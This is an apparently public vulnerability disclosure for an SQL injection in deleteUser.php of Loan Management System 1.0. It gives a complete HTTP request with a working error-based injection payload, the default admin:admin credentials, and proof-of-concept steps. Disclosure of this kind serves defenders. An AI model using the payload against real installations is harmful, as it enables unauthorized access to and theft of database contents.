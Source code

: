 ```yaml
---
typora-root-url: ./images
---
```


# Loan Management System - deleteUser.php 'user_id' SQL inject

#### Exploit Title: Loan Management System - deleteUser.php 'user_id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "deleteUser.php/user_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```php
GET /deleteUser.php?user_id='%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp&user= HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/user.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close

```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the 'users' page

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/deleteuser1.png)

3、Click 'delete' and grab the package, locate the file as' deleteUser.php '.Looking at the source code, it is found that the user_id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/deleteuser2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/deleteUser.php?user_id='%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp&user=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/deleteuser3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/deleteuser4.png)

